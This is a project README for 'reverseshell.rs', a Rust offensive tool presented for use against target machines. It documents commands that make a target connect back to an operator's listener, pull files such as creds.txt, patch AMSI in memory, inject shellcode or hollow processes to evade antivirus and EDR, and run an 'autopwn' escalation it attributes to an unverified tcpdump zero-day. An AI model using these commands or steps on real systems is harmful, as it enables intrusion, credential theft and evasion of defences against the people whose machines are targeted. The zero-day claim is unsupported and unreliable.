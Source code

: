 # reverseshell.rs

reverseshell.rs is a TLS over TCP reverse shell developped in Rust with client and server embedded in the same binary. This project has been mainly started to learn Rust with a tool that could help me in my work, and the code quality could be greatly improved.

Client and server are both cross-platform and work on Windows and Linux systems.

For Windows client, additonal features have been integrated for offensive purpose, and they will be improved in futur commits.

For this purpose, I have chosen to mainly use the official [windows_sys](https://docs.rs/windows-sys/latest/windows_sys/) crate to interact with the Win32API and the [ntapi](https://docs.rs/ntapi/latest/ntapi/) crate for the NTAPI.

The project is thought in module. This means that you can easily add or remove features to and from it, and you can also easily take parts from it to put them in your own project.

## Features

For the moment, the following features are present:

- Semi-interactive reverse shell via TLS over TCP
- File upload and download between server and client
- Start a PowerShell interactive session with the ability to patch the AMSI in memory
- Loading features :
  - Load and execute a PE in the client memory
  - Load and execute a PE in a remote process memory
  - Load and execute a shellcode in a remote process memory
- Autopwn the client machine and elevate the privileges to SYSTEM or root by exploiting a 0day in `tcpdump`

## How to

### Setup

First of all, the full path of your TLS certificate and its password must be configured in the file `server.rs` in place of the tags `[CERTFICATE_PATH]` and `[CERTIFICATE_PASSWORD]`.

Additionally, I have set a `dummy` domain for hostname validation in the `connect()` function for both clients. If you use a signed certificate for a real server, you can change it and remove the unsecure functions that remove hostname and certs validations.

By default, only the `error`, `warn` and `info` logs are displayed. If you also need the `debug` ones (can be usefull for the loading features), you can change this in `main.rs` by modifying `::log::set_max_level(LevelFilter::Info);` to `::log::set_max_level(LevelFilter::Debug);`.

### Compilation

The project can be compiled with `cargo build --release` on Windows or Linux and the binary will be present in `target/release/`.

Tu compile for a different target than your current OS you can use `cargo build --release --target x86_64-unknown-linux-gnu`.

The project compilation has been tested with the following Rust toolchains :

- `stable-x86_64-pc-windows-gnu`
- `stable-x86_64-pc-windows-msvc`
- `stable-x86_64-unknown-linux-gnu`

If you compile the project for a Linux target, the "Windows features" will be removed at compilation.
Should run on all Windows and Linux versions (I have hope).

### Usage

```plain
Usage : shell.exe [l | c] IP port

    l       launch the listener application
    c       launch the client application

    IP      IP address to bind to for the listener, or to connect to for the client
    port    port address to bind to for the listener, or to connect to for the client

    In a session, type 'help' for advanced integrated commands
```

To obtain a session, just launch the binary in listener mode on your machine with `rs-shell.exe l IP_to_bind_to port_to_bind_to`. For example `rs-shell.exe l 0.0.0.0 4545`.

Then, on the target machine launch the client to connect back to your server with `rs-shell.exe c IP_to_connect_to port_to_connect_to`. For example `rs-shell.exe c 192.168.1.10 4545`.

### Advanced commands

```plain
> help
[+] Custom integrated commands :

    [+] Loading commands
    > load C:\path\to\PE_to_load
        load a PE file in the client process memory and executes it. This could kill the reverse shell !
    > load -h C:\path\to\PE_to_load C:\path\to\PE_to_hollow
        load a PE file in a remote process memory with process hollowing and executes it
    > load -s C:\path\to\shellcode.bin C:\path\to\PE_to_execute
        load a shellcode in a remote process memory and start a new thread with it

    [+] Bypass commands
    > powpow
        start a new interactive PowerShell session with the AMSI patched in memory

    [+] Network commands
    > download C:\file\to\download C:\local\path
        download a file from the remote system
    > upload C:\local\file\to\upload C:\remote\path\to\write
        upload a file to the remote system

    [+] Special commands
    > autopwn
        escalate to the SYSTEM account from any local account by exploiting a zero day
```

The `load` commands permit to load and execute directly in memory:

- `load` loads and execute a PE in the client memory. This will kill the reverse shell, but that could be usefull to launch a C2 implant in the current process for example
- `load -h` loads and execute a PE in a created remote process memory with process hollowing. You don't lose your reverse shell session, but the process hollowing will be potentially flag by the AV or the EDR
- `load -s` loads and execute a shellcode from a `.bin` file in a created remote process memory. You don't lose your reverse shell session, and you don't have to drop the bin file on the target, since the shellcode will be transfered to the target via the TCP tunnel

For example : `> load -h C:\Windows\System32\calc.exe C:\Windows\System32\cmd.exe`. This will start a `cmd.exe` process with hollowing, load a `calc.exe` image in the process memory, and then resume the thread to execute the calc.

`powpow` starts an interactive PowerShell session with a PowerShell process where the AMSI `ScanBuffer` function has been patched in memory. This feature is not particularly opsec.

`download` permits to download a file from the client to the machine where the listener is running. For example `download C:\Users\Administrator\Desktop\creds.txt ./creds.txt`.

`upload` permits to upload a file on the client machine. For example `upload ./pwn.exe C:\Temp\pwn.exe`.

`autopwn` permits to escalate to the **SYSTEM account** with a 0day exploitation. Just type `autopwn` and answer the question.

## Todo

- [ ] Move all the Win32API related commands to the NTAPI with indirect syscalls
- [ ] Implement other injection techniques
- [ ] Implement a port forwarding solution
- [ ] Find a way to create a fully proxy aware client
- [ ] Implement a reverse socks proxy feature

## Acknowledgements

- [OffensiveRust](https://github.com/winsecurity/Offensive-Rust) by [winsecurity](https://github.com/winsecurity). This project would never have existed without him. Many of functions, structures, and tricks present in `reverseshell.rs` come from this project
- [OffensiveRust](https://github.com/trickster0/OffensiveRust) by [trickster0](https://github.com/trickster0)
- Multiple projects by [memN0ps](https://github.com/memN0ps)
- [RustPacker](https://github.com/Nariod/RustPacker) by [Nariod](https://github.com/Nariod)
- Nik Brendler's blog posts about pipe communication between process in Rust. [Part 1](https://www.nikbrendler.com/rust-process-communication/) and [Part 2](https://www.nikbrendler.com/rust-process-communication-part-2/)
